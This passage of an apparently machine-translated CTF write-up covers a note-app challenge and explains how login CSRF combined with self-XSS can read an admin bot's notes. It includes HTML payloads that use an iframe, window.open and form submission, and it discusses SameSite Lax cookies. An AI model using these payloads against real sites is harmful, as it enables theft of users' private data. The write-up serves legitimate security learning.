 ``` js
}

module.exports = { open: false, run }
```

The problem statement says that the admin bot for this question does not have an external connection function, so some additional difficulty has been added (but it seems that it was added back before the competition started, according to Discord).

But let's not discuss this for now, let's discuss other things.

This question has a CSRF token to prevent CSRF, but the login part does not, so you can use CSRF to log in and execute XSS on the admin.

If the same-site cookie is not set, it is easy to iframe, like this:

``` html
<iframe name=f onload=run() src="http://0.0.0.0:8080/notes"></iframe>
<form id=form action="/login" target="_blank">
 <input name="username" value="user01">
 <input name="password" value="password">
</form>
<script>
  function run() {
    form.submit();
  }
</script>
```

First, open an iframe on the page, and the admin's notes will be inside. Then use form CSRF to open a new window.

Then, just create an XSS in your own account, and use `window.opener.frames['f'].document.body` to get the page content. Although the newly opened page is not the same origin as `window.opener`, it can still be accessed because it is the same origin as `window.opener.frames['f']`.

However, the biggest problem with this question is Chrome's default Lax, so the iframe does not carry cookies, so it cannot be used.

A very intuitive solution is to use `window.open`, like this:

``` html
<form id=form action="/login" target="_blank">
 <input name="username" value="user01">
 <input name="password" value="password">
</form>
<script>
  win = window.open('http://0.0.0.0:8080/notes')
  form.submit()
</script>
```

But the biggest problem is that you cannot access the opened window using `window.opener.win` in the new window because it is not the same origin as `window.opener`.

If the two new windows cannot communicate with each other, what should you do?
